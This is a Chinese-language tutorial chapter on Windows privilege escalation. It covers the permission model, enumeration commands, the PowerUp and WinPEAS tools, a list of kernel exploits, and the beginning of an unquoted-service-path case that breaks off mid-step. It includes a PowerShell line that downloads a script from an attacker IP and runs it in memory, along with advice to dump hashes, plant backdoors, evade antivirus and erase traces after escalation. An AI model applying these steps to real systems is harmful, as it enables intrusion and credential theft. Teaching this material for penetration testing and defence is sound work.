





# 第43章 Windows提权基础

> **难度等级：🟠 高等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：提权基本概念、Windows权限体系详解、提权的分类、提权信息收集、系统信息收集命令、提权思路与流程、提权辅助工具（PowerUp、WinPEAS）、自动提权脚本、5个实战案例**

::: tip 说明
恭喜你进入提权技术模块！

拿到Shell只是第一步，
很多时候我们拿到的只是普通用户权限，
想做更多的事情，
比如：
- 导出系统密码Hash
- 安装后门
- 修改系统配置
- 访问其他用户的数据
- ...

这些都需要更高的权限。

这就是提权（Privilege Escalation）——
从低权限提升到高权限。

提权是红队的核心技能之一，
也是区分新手和老手的重要标志。

这一章我们先打基础：
- 什么是提权？
- Windows权限体系是怎样的？
- 提权有哪些类型？
- 提权前要收集哪些信息？
- 有哪些好用的提权辅助工具？

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
很多新手拿到Shell之后，
第一件事就是输入：
```bash
whoami
```
一看是普通用户权限，
就开始慌了：
"怎么办？怎么提权？"

然后就开始到处找提权EXP，
找到一个就扔上去试，

> 💡 **大白话说提权**
>
> 提权，用最简单的话说就是：**你在别人家里，从"客人"变成"主人"。**
>
> 想象一下：
> - 你通过阳台翻进了别人家（拿到WebShell）
> - 现在你是"客人"，只能在客厅活动（低权限用户）
> - 保险柜、卧室的门都锁着（需要管理员权限的操作）
> - **提权** = 你找到了主人藏的备用钥匙，打开了所有门（变成SYSTEM/root）
>
> Windows权限体系用大楼来比喻：
> - **SYSTEM** = 大楼的"总物业管理"，所有楼层、所有房间都有钥匙（最高权限）
> - **Administrator** = 某个楼层的"楼层管理员"，管自己的楼层没问题，但不能随意去别的楼层
> - **普通用户** = 大厦的"访客"，只能在自己工位活动，哪都去不了
>
> 提权的本质就是：找到系统配置的"漏洞"或"后门"，让自己从访客升级成管理员。
>
> **为什么提权信息收集最重要？**
> 因为你不能盲目试！
> 你得先搞清楚：
> - 这是几层楼（Windows版本和补丁级别）
> - 有没有没上锁的门（服务配置错误）
> - 楼上有没有在装修（计划任务/服务在运行）
> - 是不是有万能钥匙（AlwaysInstallElevated等注册表配置）
>
> 收集到的信息越多，提权路径就越清晰。

然后就开始到处找提权EXP，
试了十几个都不成功，
最后放弃了。

这是新手常见的问题：
**只会瞎试，不会分析。**

其实提权是有方法论的，
不是瞎猫碰死耗子。

正确的提权流程应该是：
1. 收集系统信息
2. 分析可能的提权路径
3. 选择合适的提权方法
4. 执行提权
5. 验证结果

这一章我们就从基础开始，
先搞懂Windows的权限体系，
再学习提权的基本思路和方法。

等你搞懂了这些，
提权就不是瞎试了，
而是有针对性地操作。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解什么是提权、为什么要提权
- [x] 掌握Windows权限体系（用户、组、权限、令牌）
- [x] 了解提权的分类（内核提权、配置错误提权、第三方提权）
- [x] 掌握提权信息收集的方法和命令
- [x] 学会使用提权辅助工具（PowerUp、WinPEAS）
- [x] 理解提权的基本思路和流程
- [x] 知道如何寻找和使用提权EXP
- [x] 能独立完成简单的提权操作

---

## 🔍 提权基础概念

### 1.1 什么是提权？

**提权（Privilege Escalation）**，
简单说就是：
**从低权限提升到高权限的过程。**

比如：
- 从普通用户 → 管理员
- 从Web服务用户 → 系统用户
- 从受限用户 → 完全权限
- ...

为什么要提权？
因为低权限能做的事情太少了：
- 不能看其他用户的文件
- 不能修改系统配置
- 不能安装软件/服务
- 不能导出密码
- 不能安装后门
- ...

而高权限几乎可以做任何事情。

::: tip 打个比方
提权就像玩游戏，
你刚进游戏是1级小号，
只能在新手村晃悠，
很多地方去不了，
很多怪打不了。

提权就是升级，
等级越高，
能去的地方越多，
能做的事情越多。

而System权限就是满级大号，
想干啥干啥。
:::

### 1.2 提权的分类

提权的方法很多，
大致可以分为三大类：

**第一类：内核漏洞提权**
- 利用操作系统内核的漏洞
- 比如MS17-010、MS16-032、CVE-2019-0803等
- 威力大，但风险也大（容易打蓝屏）
- 需要对应系统版本和补丁情况

**第二类：错误配置提权**
- 利用系统或软件的配置错误
- 比如：
  - 服务权限配置错误
  - 注册表权限配置错误
  - 计划任务配置错误
  -  AlwaysInstallElevated配置
  - ...
- 风险小，不容易出问题
- 环境合适的话成功率很高

**第三类：第三方软件/服务提权**
- 利用安装的第三方软件漏洞
- 比如：
  - 有漏洞的杀毒软件
  - 有漏洞的数据库
  - 有漏洞的Web服务器
  - ...
- 取决于目标安装了什么软件
- 偶然性比较大

::: tip 提权思路
提权的时候，
建议按这个顺序来：

1. 先看有没有配置错误（最稳妥）
2. 再看有没有第三方软件漏洞
3. 最后考虑内核漏洞（风险大）

内核漏洞虽然威力大，
但容易把系统打蓝屏，
在护网行动中要谨慎使用。
:::

**图43-1 Windows提权三大分类对比图**



### 1.3 横向提权 vs 纵向提权

你可能还听过这两个概念：

**纵向提权（Vertical Privilege Escalation）**
- 从低权限 → 高权限
- 比如：普通用户 → 管理员
- 这是最常见的提权

**横向提权（Horizontal Privilege Escalation）**
- 权限等级相同，但换了个用户
- 比如：用户A → 用户B
- 虽然权限等级一样，但可能能访问不同的资源

举个例子：
你拿到了Web服务的权限（iusr），
这是一个很低的权限，
你通过某种方式，
换成了另一个普通用户的权限，
这就是横向提权。

虽然还是普通用户，
但这个用户可能有更多的资源，
或者能访问更多东西，
甚至可以用这个用户继续纵向提权。

---

## 🏰 Windows权限体系详解

### 2.1 Windows用户账户

Windows的用户账户有很多种，
按权限从高到低大致是：

| 用户 | 权限说明 |
|------|---------|
| **SYSTEM** | 系统最高权限，比管理员还高 |
| **Administrator** | 管理员账户，拥有大部分权限 |
| **管理员组用户** | 属于Administrators组的用户 |
| **普通用户** | Users组的用户，权限受限 |
| **来宾用户** | Guest组，权限非常低 |
| **服务账户** | 比如IUSR、NETWORK SERVICE等，服务运行的账户 |

::: tip SYSTEM vs Administrator
很多人以为Administrator是最高权限，
其实不是的。

SYSTEM（本地系统）才是最高权限，
它比Administrator权限还要高。

比如：
- 修改SAM数据库（存密码的地方）
- 修改系统关键文件
- 安装驱动程序
- ...

这些操作，
Administrator可能需要调整权限才能做，
而SYSTEM可以直接做。

所以我们提权的最终目标，
通常是SYSTEM权限，
而不仅仅是Administrator。
:::

**图43-2 Windows用户权限层级图**



### 2.2 Windows用户组

Windows除了用户，
还有组（Group）的概念。

一个用户可以属于多个组，
用户的权限是所有组权限的并集。

**常见的内置组：**

| 组名 | 说明 | 权限 |
|------|------|------|
| **Administrators** | 管理员组 | 最高权限的组之一 |
| **Users** | 普通用户组 | 默认的普通用户组 |
| **Guests** | 来宾组 | 权限很低 |
| **System** | 系统组 | 最高权限 |
| **Remote Desktop Users** | 远程桌面用户组 | 可以登录远程桌面 |
| **Domain Admins** | 域管理员组 | 域环境中的最高权限组 |
| **Enterprise Admins** | 企业管理员组 | 林范围的管理员 |
| **Schema Admins** | 架构管理员组 | 管理AD架构 |
| **Backup Operators** | 备份操作员组 | 可以备份/恢复文件 |
| **Power Users** | 高级用户组 | 老系统才有，Win7后基本没用了 |

**查看当前用户所属的组：**
```cmd
whoami /groups
```

**查看所有用户：**
```cmd
net user
```

**查看所有组：**
```cmd
net localgroup
```

**查看某个组的成员：**
```cmd
net localgroup administrators
```

### 2.3 Windows权限机制

Windows的权限管理非常复杂，
这里只讲几个核心概念。

**1. 安全标识符（SID）**

每个用户和组都有一个唯一的SID，
就像是身份证号一样。

比如：
- `S-1-5-18`：SYSTEM
- `S-1-5-32-544`：Administrators组
- `S-1-5-32-545`：Users组

系统内部用SID来识别用户，
而不是用户名。

> 💡 **大白话说SID、访问令牌和权限**
>
> Windows的权限管理听起来很复杂，但用公司门禁系统来理解就简单了：
>
> **SID（安全标识符）** = 你的**身份证号**
> - 每个用户有唯一的ID，比如 `S-1-5-18` 代表SYSTEM
> - 系统认SID不认名字——就像公司系统识别的不是"张三"这个人名，而是他的工号
>
> **访问令牌（Access Token）** = 你胸前挂的**工牌**
> - 上面记录了：你是谁（用户SID）、你是哪个部门的（组SID）、你有什么权限（Privileges）
> - 每次你要进某个门、查某个文件，门禁都会刷一下你的工牌，看看你有没有资格
>
> **权限（Privileges）** = 工牌上的**特殊标记**
> - 比如 `SeDebugPrivilege` = 工牌上有"可进入机房"的标记
> - `SeBackupPrivilege` = 工牌上有"可查看所有档案"的标记
> - 即使你不是管理员，有了这些特殊标记也能做很多事
>
> **提权的本质在这个比喻里就是**：
> - 你的工牌本来是"访客"级别的 → 想办法给自己换成"管理员"工牌（提权）
> - 或者你的工牌有"可进入机房"的标记 → 利用这个标记溜进控制室（特殊权限利用）
>
> 所以每次拿到Shell后，**第一件事就是看工牌**：
> ```
> whoami /priv
> ```
> 看看有没有什么"特殊标记"可以利用。

**2. 访问令牌（Access Token）**

每个进程都有一个访问令牌，
里面记录了：
- 这个进程属于哪个用户
- 属于哪些组
- 有哪些权限

当进程要访问某个资源的时候，
系统会检查这个令牌，
看看有没有权限访问。

提权很多时候，
就是在操作这个令牌。

**3. 权限（Privileges）**

Windows有很多具体的权限，
比如：
- `SeDebugPrivilege`：调试权限（很危险，可以注入进程）
- `SeBackupPrivilege`：备份权限（可以读任何文件）
- `SeRestorePrivilege`：恢复权限（可以写任何文件）
- `SeTakeOwnershipPrivilege`：取得所有权权限
- `SeLoadDriverPrivilege`：加载驱动权限
- `SeImpersonatePrivilege`：模拟权限
- ...

这些权限很重要，
有时候即使不是管理员，
只要有某些特殊权限，
也能提权。

**查看当前权限：**
```cmd
whoami /priv
```

::: tip 危险权限
以下这些权限如果拥有，
通常可以用来提权：
- SeDebugPrivilege
- SeTakeOwnershipPrivilege
- SeBackupPrivilege / SeRestorePrivilege
- SeLoadDriverPrivilege
- SeImpersonatePrivilege / SeAssignPrimaryTokenPrivilege
- SeTcbPrivilege

后面我们会详细讲这些权限怎么利用。
:::

**图43-3 Windows访问令牌与权限检查机制图**



### 2.4 服务账户

Windows中有一些特殊的账户，
是用来运行服务的。

常见的服务账户：

| 账户 | 说明 | 权限 |
|------|------|------|
| **Local System** | 本地系统账户 | 最高权限，等同于SYSTEM |
| **Local Service** | 本地服务账户 | 权限较低，类似普通用户 |
| **Network Service** | 网络服务账户 | 权限较低，网络访问用计算机账户 |
| **IUSR** | IIS匿名用户 | 很低的权限，Web访问用 |
| **IIS AppPool\XXX** | IIS应用程序池账户 | 权限较低 |

很多时候我们通过Web漏洞拿到的权限，
就是IUSR或者应用程序池账户，
权限非常低，
这时候就需要想办法提权。

### 2.5 UAC（用户账户控制）

UAC（User Account Control）是
Windows Vista开始引入的安全机制。

简单说就是：
即使你是管理员组的用户，
默认也只使用普通用户权限，
当需要管理员权限的时候，
会弹出一个确认框，
你点"是"之后才会提升权限。

UAC对我们提权有什么影响？
- 如果你拿到的是管理员组用户的Shell，
  但UAC是开启的，
  那你实际上只有普通用户权限。
- 你需要绕过UAC，
  才能获得真正的管理员权限。

UAC绕过的方法很多，
我们后面的章节会讲。

---

## 📋 提权信息收集

### 3.1 为什么要信息收集？

很多人一拿到Shell，
就开始找提权EXP，
然后一个一个试，
试了半天都不成功。

这是不对的。

**提权的第一步，
应该是信息收集。**

你得先搞清楚：
- 这是什么系统？
- 打了哪些补丁？
- 是什么权限？
- 安装了哪些软件？
- 有哪些服务在运行？
- 有哪些计划任务？
- 注册表有什么可利用的？
- ...

只有了解了这些信息，
你才能有针对性地找提权方法，
而不是瞎试。

::: tip 提权的流程
正确的提权流程：

1. 收集系统信息
2. 分析可能的提权点
3. 选择合适的提权方法
4. 执行提权操作
5. 验证提权结果

信息收集是第一步，
也是最重要的一步。
信息收集越全面，
提权成功率越高。
:::

**图43-4 Windows提权信息收集维度图**



### 3.2 系统信息收集

**1. 操作系统版本和架构**
```cmd
systeminfo
```
这个命令会输出一大堆信息：
- 操作系统名称和版本
- 系统类型（x86还是x64）
- 安装的补丁（KB编号）
- ...

**简化版：**
```cmd
ver
```
只看版本号。

**2. 主机名和域名**
```cmd
hostname
echo %USERDOMAIN%
```

**3. 当前用户和权限**
```cmd
whoami
whoami /groups
whoami /priv
```

**4. 环境变量**
```cmd
set
```
可以看到很多有用的信息，
比如用户名、用户目录、系统目录等等。

**5. 网络信息**
```cmd
ipconfig /all
route print
netstat -ano
```

**6. 查看补丁**
```cmd
systeminfo | findstr /B /C:"KB"
```
或者：
```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

这个非常重要！
通过补丁列表，
可以知道哪些内核漏洞可以用，
哪些不能用。

### 3.3 用户和组信息收集

**1. 所有本地用户**
```cmd
net user
```

**2. 所有本地组**
```cmd
net localgroup
```

**3. 管理员组的成员**
```cmd
net localgroup administrators
```

**4. 当前用户的信息**
```cmd
net user %username%
```

**5. 最近登录的用户**
```cmd
net user | findstr /i "user"
```
或者看用户目录：
```cmd
dir C:\Users\
```

### 3.4 进程和服务信息收集

**1. 正在运行的进程**
```cmd
tasklist /v
```
或者：
```cmd
wmic process get name,processid,user
```

**2. 系统服务**
```cmd
net start
```
或者更详细的：
```cmd
wmic service get name,displayname,pathname,startmode
```

这个非常重要！
很多提权都是通过服务配置错误来提权的。

**3. 查看服务的详细信息**
```cmd
sc qc 服务名
```

比如：
```cmd
sc qc Spooler
```

### 3.5 计划任务信息收集

计划任务也是提权的常见路径。

**查看计划任务：**
```cmd
schtasks /query /fo LIST /v
```
这个命令会列出所有计划任务，
包括：
- 任务名称
- 运行的程序
- 运行的账户
- 触发条件
- ...

如果发现某个计划任务：
- 以高权限运行
- 执行的程序我们可以修改
- 或者执行的程序路径有问题（比如没有引号）

那就可能可以用来提权。

### 3.6 注册表信息收集

注册表中也藏着很多提权线索。

**1. AlwaysInstallElevated**
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
如果这两个都是1，
那恭喜你，可以直接提权！

**2. 启动项**
```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

**3. AppLocker配置**
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2
```

**4. 其他有趣的注册表项**
还有很多注册表项可以利用，
我们后面讲具体提权方法的时候再说。

### 3.7 文件和权限信息收集

**1. 查看当前目录权限**
```cmd
icacls .
```

**2. 查看某个文件/目录的权限**
```cmd
icacls "C:\Program Files\XXX"
```

**3. 查找有写入权限的目录**
这个需要脚本或者工具来做，
手动找太麻烦了。

**4. 查看SAM和SYSTEM文件**
```cmd
icacls C:\Windows\System32\config\SAM
```
一般来说普通用户读不了，
但如果配置错误的话...

### 3.8 已安装软件信息收集

看看目标装了什么软件，
有没有有漏洞的。

**1. 已安装的软件列表**
```cmd
wmic product get name,version
```
或者：
```cmd
dir "C:\Program Files\"
dir "C:\Program Files (x86)\"
```

**2. 常见的可利用软件**
- 旧版本的杀毒软件
- 旧版本的数据库
- 旧版本的Web服务器
- 旧版本的FTP服务器
- 各种第三方管理软件
- ...

### 3.9 快速信息收集脚本

手动敲这么多命令太累了，
我们可以写成一个批处理脚本，
一键收集。

**简单的信息收集脚本：**
```batch
@echo off
echo ===== 系统信息 =====
systeminfo
echo.
echo ===== 当前用户 =====
whoami
whoami /priv
whoami /groups
echo.
echo ===== 环境变量 =====
set
echo.
echo ===== 网络信息 =====
ipconfig /all
netstat -ano
route print
echo.
echo ===== 用户列表 =====
net user
net localgroup administrators
echo.
echo ===== 进程列表 =====
tasklist /v
echo.
echo ===== 服务列表 =====
wmic service get name,displayname,pathname,startmode
echo.
echo ===== 计划任务 =====
schtasks /query /fo LIST /v
echo.
echo ===== 已安装软件 =====
wmic product get name,version
echo.
echo ===== 补丁列表 =====
wmic qfe get Caption,Description,HotFixID,InstalledOn
echo.
echo ===== 收集完成 =====
```

把这个存成`.bat`文件，
上传到目标上运行，
就能一次性收集大部分信息了。

---

## 🛠️ 提权辅助工具

### 4.1 为什么要用辅助工具？

手动收集信息虽然靠谱，
但速度太慢了，
而且容易漏掉一些东西。

这时候就需要提权辅助工具了。

这些工具的作用是：
- 自动收集系统信息
- 自动检查常见的提权点
- 给出提权建议
- 有的甚至能直接提权

有了这些工具，
提权效率会高很多。

### 4.2 PowerUp

PowerUp是PowerSploit工具包里的
一个PowerShell脚本，
专门用来做Windows提权检查的。

它会检查：
- 服务配置错误
- 注册表配置错误
- 计划任务
- AlwaysInstallElevated
- DLL劫持
- ...

然后给出可能的提权路径。

**使用方法：**

方法一：本地加载
```powershell
# 下载脚本（或者上传）
# 导入脚本
Import-Module .\PowerUp.ps1

# 执行所有检查
Invoke-AllChecks
```

方法二：内存加载（不用落盘）
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://你的IP/PowerUp.ps1")
Invoke-AllChecks
```

**常用命令：**
```powershell
# 执行所有检查
Invoke-AllChecks

# 只检查服务
Get-ServiceUnquoted
Get-ServicePermissions
Get-ServiceBinaryPath

# 检查注册表
Get-RegistryAlwaysInstallElevated
Get-RegistryAutoLogon

# 检查计划任务
Get-ScheduledTask

# 检查DLL劫持
Find-DLLHijack
```

**PowerUp的输出：**
它会把发现的问题列出来，
并且给出对应的利用方法，
非常贴心。

**图43-6 PowerUp提权检查输出结果实景图**


### 4.3 WinPEAS

WinPEAS是另一个非常流行的
Windows提权检查工具，
功能比PowerUp还要强大。

它会检查：
- 系统信息和补丁
- 用户和权限
- 进程和服务
- 计划任务
- 注册表
- 网络
- 凭据
- 有趣的文件
- 第三方软件
- ...

几乎所有能查的它都查了。

**使用方法：**

WinPEAS有两个版本：
- `winPEASx64.exe`：64位版本
- `winPEASx86.exe`：32位版本

```cmd
# 直接运行
winPEASx64.exe

# 输出到文件
winPEASx64.exe > result.txt

# 只检查某些项目
winPEASx64.exe servicesinfo
winPEASx64.exe applicationsinfo
```

**常用参数：**
- `systeminfo`：系统信息
- `userinfo`：用户信息
- `processinfo`：进程信息
- `servicesinfo`：服务信息
- `applicationsinfo`：应用程序信息
- `networkinfo`：网络信息
- `windowscreds`：Windows凭据
- `fileinfo`：文件信息
- `registryinfo`：注册表信息
- `eventloginfo`：事件日志

WinPEAS的输出非常详细，
而且会用颜色标注：
- 红色：高危，很可能可以提权
- 黄色：中危，可能可以提权
- 绿色：普通信息
- 白色：普通信息

一眼就能看到重点。

### 4.4 其他提权辅助工具

**1. Windows-Exploit-Suggester**
- 专门用来检测内核漏洞的
- 对比systeminfo的输出和漏洞数据库
- 告诉你哪些补丁没打，对应哪些漏洞

**使用方法：**
```bash
# 先在目标上执行 systeminfo > systeminfo.txt
# 然后把文件传回来，在本地运行
./windows-exploit-suggester.py --database 2024-01-01-mssb.xls --systeminfo systeminfo.txt
```

**2. Sherlock**
- PowerShell脚本，类似PowerUp
- 专门找缺失的补丁和本地提权漏洞

**3. Seatbelt**
- C#写的信息收集工具
- 功能非常全面
- GhostPack工具包的一部分

**4. JAWS**
- Just Another Windows (enum) Script
- PowerShell信息收集脚本

**5. PrivEsc**
- Windows提权辅助脚本
- 自动化程度比较高

### 4.5 内核漏洞提权资源

**Windows提权漏洞汇总：**
- **GitHub - WindowsExploits**：Windows提权EXP大合集
- **exploit-db**：漏洞数据库，搜Windows提权
- **packetstormsecurity**：另一个漏洞数据库

**常用的内核提权漏洞：**

| 漏洞编号 | CVE编号 | 影响系统 | 说明 |
|---------|---------|---------|------|
| MS17-010 | CVE-2017-0143~0148 | Win7/2008等 | 永恒之蓝，最著名的 |
| MS16-032 | CVE-2016-0099 | Vista~Win10/2008~2012 | 二次登录服务提权 |
| MS15-051 | CVE-2015-1701 | Win7/2008 | 内核提权 |
| MS14-068 | CVE-2014-6324 | 域控 | Kerberos提权 |
| MS13-005 | CVE-2013-0002 | Vista~Win8/2008~2012 | 内核提权 |
| MS11-046 | CVE-2011-1249 | XP/2003/Win7/2008 | afd.sys提权 |
| MS10-015 | CVE-2010-0232 | XP/2003/Vista/2008/7 | 内核提权 |
| CVE-2019-0803 | - | Win10/Server 2019 | Win32k提权 |
| CVE-2019-1458 | - | Win10/Server 2019 | Win32k提权 |
| CVE-2020-0787 | - | Win10/Server | 后台智能传输服务 |
| CVE-2021-40449 | - | Win10/Server | Win32k提权 |
| PrintNightmare | CVE-2021-34527/1675 | 大部分Windows | 打印服务提权 |

::: tip 注意
内核漏洞提权虽然威力大，
但有几个问题：

1. **有风险**：可能把系统打蓝屏
2. **看版本**：必须对应系统版本和补丁
3. **架构匹配**：32位和64位不一样
4. **容易检测**：很多杀毒软件会检测

所以能用配置错误提权的话，
尽量用配置错误，
内核漏洞作为最后手段。
:::

---

## 🧠 提权思路与流程

### 5.1 提权的基本思路

拿到一个Shell之后，
提权应该按什么顺序来呢？

给大家一个通用的提权思路：

**第一步：确认当前权限**
```cmd
whoami
whoami /priv
whoami /groups
```
先搞清楚自己是什么权限，
有哪些特殊权限。

**第二步：收集系统信息**
- 系统版本和架构
- 补丁情况
- 用户和组
- 进程和服务
- 计划任务
- 注册表
- 已安装软件
- 网络配置

**第三步：用工具扫描**
- PowerUp
- WinPEAS
- Windows-Exploit-Suggester

**第四步：分析结果，选择提权路径**
优先考虑：
1. 配置错误提权（最稳妥）
   - 服务配置错误
   - 计划任务
   - 注册表配置
   - 权限配置错误
   - DLL劫持
2. 第三方软件提权
   - 有漏洞的服务
   - 有漏洞的软件
3. 内核漏洞提权（最后考虑）
   - 对应版本的EXP
   - 注意风险

**第五步：执行提权**
- 上传提权工具/EXP
- 执行提权操作
- 验证结果

**第六步：验证和后续**
- 确认是不是System权限
- 导出Hash、抓密码
- 做持久化
- 清除痕迹

**图43-5 Windows提权标准操作流程图**



### 5.2 提权的常见路径

**Windows提权常见路径总结：**

**1. 内核漏洞提权**
- 利用系统内核漏洞
- 需要对应系统版本和补丁
- 成功率高，但有蓝屏风险

**2. 服务配置错误**
- 服务路径没有引号（路径中有空格）
- 服务二进制文件权限配置错误
- 服务注册表权限配置错误
- 未引用的服务路径

**3. 注册表配置错误**
- AlwaysInstallElevated
- 自动登录的明文密码
- 其他可利用的注册表项

**4. 计划任务**
- 计划任务运行高权限程序
- 程序路径可修改
- 任务配置错误

**5. 权限配置错误**
- 拥有特殊权限（SeDebug、SeBackup等）
- 对敏感文件/目录有写入权限
- 对服务有操作权限

**6. DLL劫持**
- 程序启动时加载DLL的顺序问题
- 我们可以在前面的路径放恶意DLL
- 程序启动时就会加载我们的DLL

**7. 第三方软件/服务漏洞**
- 有漏洞的杀毒软件
- 有漏洞的数据库
- 有漏洞的FTP/Web服务器
- 各种第三方软件

**8. 其他方法**
- 假冒令牌（Token Impersonation）
- 打印机漏洞（PrintNightmare）
- 存储的凭据
- 配置文件中的密码
- ...

### 5.3 提权的注意事项

**1. 先备份，后操作**
- 重要操作前先拍快照（如果是虚拟机）
- 重要文件先备份
- 万一搞坏了还能恢复

**2. 先分析，后动手**
- 不要一上来就瞎试
- 先收集信息，分析清楚
- 选择最合适的方法

**3. 由易到难，由稳到险**
- 先试简单的、稳妥的方法
- 再试复杂的、有风险的方法
- 内核漏洞最后再考虑

**4. 注意隐蔽性**
- 不要弄出太大动静
- 少往磁盘写东西
- 注意日志
- 小心杀毒软件

**5. 提权之后干什么？**
- 验证权限（whoami）
- 导出密码（hashdump、mimikatz）
- 做持久化（后门、服务、计划任务...）
- 继续横向移动
- 清除痕迹

---

## 📚 真实案例

### 案例1：信息收集发现经典配置错误

**场景：**
拿到一台Windows Server 2008的Shell，
是普通用户权限，
需要提权到System。

**操作步骤：**

**第一步：查看当前权限**
```cmd
C:\> whoami
win-xxx\testuser

C:\> whoami /priv
# 没有特殊权限
```

**第二步：系统信息收集**
```cmd
C:\> systeminfo
# 操作系统：Windows Server 2008 R2 Standard
# 系统类型：x64-based PC
# 补丁：打了一些，但不全
```

**第三步：服务信息收集**
```cmd
C:\> wmic service get name,displayname,pathname,startmode | findstr /i "auto"
# 发现了一个服务：
# Name: MyService
# PathName: C:\Program Files\My App\service.exe
```

注意到了吗？
路径是`C:\Program Files\My App\service.exe`，
中间有空格，
而且没有用引号括起来！

这就是经典的**未引用服务路径**漏洞。

**为什么这是漏洞？**
因为当系统启动这个服务的时候，
它会依次尝试这些路径：
1. `C:\Program.exe`
2. `C:\Program Files\My.exe`
